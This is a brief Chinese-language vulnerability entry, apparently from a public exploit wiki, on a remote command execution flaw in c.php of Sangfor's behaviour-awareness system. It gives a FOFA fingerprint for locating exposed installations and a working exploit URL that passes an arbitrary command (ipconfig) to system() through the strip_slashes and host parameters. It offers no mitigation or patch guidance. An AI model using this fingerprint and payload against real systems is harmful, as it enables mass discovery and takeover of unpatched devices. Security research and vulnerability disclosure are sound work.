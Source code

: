 # 深信服 行为感知系统 c.php 远程命令执行漏洞

## 漏洞描述

深信服 行为感知系统  c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

> [!NOTE]
>
> 深信服 行为感知系统

## FOFA

> [!NOTE]
>
> body="isHighPerformance : !!SFIsHighPerformance,"	

## 漏洞复现

登录页面如下

![image-20210531194638650](http://wikioss.peiqi.tech/vuln/image-20210531194638650.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

访问漏洞Url

```
/tool/log/c.php?strip_slashes=system&host=ipconfig
```

![image-20210531194727866](http://wikioss.peiqi.tech/vuln/image-20210531194727866.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)